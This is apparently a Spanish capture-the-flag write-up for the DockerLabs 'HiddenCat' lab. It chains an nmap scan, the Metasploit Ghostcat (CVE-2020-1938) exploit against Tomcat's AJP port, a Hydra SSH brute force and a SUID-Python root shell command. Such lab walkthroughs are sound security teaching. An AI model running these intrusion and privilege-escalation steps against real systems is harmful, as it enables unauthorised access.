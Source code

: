 ```yaml
---
layout: post
title: Maquina HiddenCat
subtitle: DockerLabs
header-img: img/in-post/2020-10-07/upload-dl.png
header-style: text
catalog: true
tags:
  -  DockerLabs
  -  Fuerza Bruta
  -  Binarios UNIX
  -  Metasploit
  -  Reverse Shell
---
```


#### **Información**
- **Máquina:** HiddenCat
- **Plataforma:** [DockerLabs](https://dockerlabs.es/)
- **Creador:** El Pingüino de Mario
- **SO:** Linux
- **Dificultad:** `Facil`{:.success}

#### **Configuración Entorno**
Primeramente, como siempre para configurar las máquinas de DockerLabs, exportamos los ficheros auto_deploy.sh y en este caso hiddencat.tar.
Para ejecutarlo utilizamos el siguiente comando:
```bash
sudo bash auto_deploy.sh hiddencat.tar
```
![Image 1](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img1.png)

**auto_deploy.sh:** este archivo se encarga de desplegar la máquina mediante docker y, una vez presionamos `ctrl+c`{:.info} pasa a un proceso de borrado, todo automático, sin necesidad de tener conocimientos de docker.

**hiddencat.tar:** contiene todo el contenido de la máquina docker; es el corazón, donde está la máquina víctima.

#### **Reconocimiento**
Lo primero que realizamos es lanzar un ping contra la IP de la máquina para comprobar que tenemos conectividad.
```bash
ping -c 1 172.17.0.2
```
![Image 2](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img2.png)

Podemos observar que el ttl es de 64, por tanto, como norma general podemos afirmas que se trata de una maquina linux.
Una vez comprobada la conectividad, iniciaremos un escaneo con nmap, para detectar puertos abiertos y lo almacenaremos en un fichero llamado scan, con el siguiente comando:
```bash
nmap -p- --open -sV -sC -sS --min-rate=5000 -vvv -n -Pn -oN scan
```
- **-p-** --> Busqueda de puertos abiertos
- **--open** --> Enumera los puertos abiertos
- **-sS** --> Es un modo de escaneo rápido
- **-sC** --> Que use un conjunto de scripts de reconocimiento
- **-sV** --> Que encuentre la versión del servicio abierto
- **--min-rate=5000** --> Hace que el reconocimiento aun vaya más rápido mandando no menos de 5000 paquetes
- **-n** --> No hace resolución DNS
- **-Pn** --> No hace ping
- **-vvv** --> Muestra en pantalla a medida que encuentra puertos (Verbose)
![Image 3](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img3.png)
![Image 4](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img4.png)

Vemos que tiene abiertos los puertos **22 (SSH), 8080 y 8009**.
Gracias a los scrips de nmap nos detecta lo siguiente:
-	Puerto 22: `OpenSSH 7.9p1`{:.error}
-	Puerto 8009: `Apache Jserv (Protocol v1.3)`{:.error}
-	Puerto 8080: `Apache Tomcat 9.0.30`{:.error}

Descartamos de momento atacar al puerto 22 ya que cuenta con una versión de OpenSSH no vulnerable, por tanto, investigamos el puerto 8009 que corre un Apache Jserv. Encontramos la siguiente referencia al respecto en [HackTriks](https://book.hacktricks.xyz/v/es/network-services-pentesting/8009-pentesting-apache-jserv-protocol-ajp), donde se detalla que versiones anteriores a 9.0.31, 8.5.51 y 7.0.100 de Apache Tomcat, si el puerto AJP está expuesto -como es el caso aquí, dado que tenemos la versión 9.0.30 y el puerto 8009 expuesto-, presentan una vulnerabilidad conocida como `Ghostcat`{:.info} (CVE-2020-1938).

En el propio HackTik encontramos un script en Python que permite explotar esta vulnerabilidad, yo he preferido buscarlo en `Metasploit`{:.info}.

Arrancamos Metasploit con el comando `msfconsole`{:.info}.
Una vez dentro buscamos los exploits que hagan referencia a Apache Jserv
```bash
msf6 > search exploit Apache Jserv
```
Encontramos el exploit `tomcat_ghostcat`{:.info}, lo seleccionamos.
```bash
msf6 > use 0
```
Y revisamos los parámetros necesarios para el exploit.
```bash
msf6 > show options
```
![Image 5](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img5.png)

Establecemos la IP de la maquina víctima y ejecutamos el exploit.
```bash
msf6> set RHOST 172.17.0.2
msf6> exploit
```
![Image 6](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img6.png)

Podemos ver que tenemos un usuario llamado Jerry.
Teniendo el usuario podríamos tratar de aplicar fuerza bruta para lograr acceso por SSH a la maquina víctima, ya que como nos mostró el escaneo de nmap, contamos con el Puerto 22 abierto.
Realizamos el ataque con Hydra al usuario Jerry utilizando el diccionario de contraseñas comunes `rockyou.txt`{:.info}.
```bash
hydra 172.17.0.2 ssh -s 22 -l jerry -P /usr/share/wordlists/rockyou.txt -f -I -t 64
```
![Image 7](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img7.png)

Y efectivamente nos encuentra la contraseña `chocolate`{:.success} :chocolate_bar: para el usuario Jerry
Accedemos por SSH a la maquina víctima.

![Image 8](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img8.png)
Una vez dentro trato de ejecutar sudo -l para listar los privilegios que tiene el usuario “Jerry” en el sistema mediante el comando sudo. Esto significa que muestra qué comandos puede ejecutar el usuario Jerry con privilegios elevados utilizando sudo, así como cualquier restricción aplicada a esos privilegios.
Pero nos indica que sudo no está instalado en el sistema, por tanto, pruebo a buscar los archivos con permisos SUID en el sistema.
```bash
jerry@a8385f5ecbd3:~$ find / -perm -4000 2>/dev/null
/bin/ping
/bin/su
/bin/umount
/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/perl5.28.1
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/perl
/usr/bin/chsh
/usr/bin/python3.7
/usr/bin/python3.7m
```
Consultamos [http://https://gtfobins.github.io/](http://https://gtfobins.github.io/) para encontrar una manera de elevar privilegios con Python. Luego, ejecutamos el siguiente comando:
```bash
/usr/bin/python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
![Image 9](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img9.png)

Y efectivamente, ya somo `root`{:.error}, por lo tanto, `¡¡¡maquina vulnerada!!!`{:.success} :sunglasses::sunglasses::sunglasses:

#### **Eliminación del entorno**

Para borrar la máquina solo debemos ir a la consola donde lo desplegamos y presionar `ctrl+c`{:.info} y eliminaría y borraría todo rastro de la máquina víctima en nuestro sistema LINUX.

![Image 10](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img10.png)

`¡¡¡Espero que os haya gustado y nos vemos en la próxima!!!`{:.success}
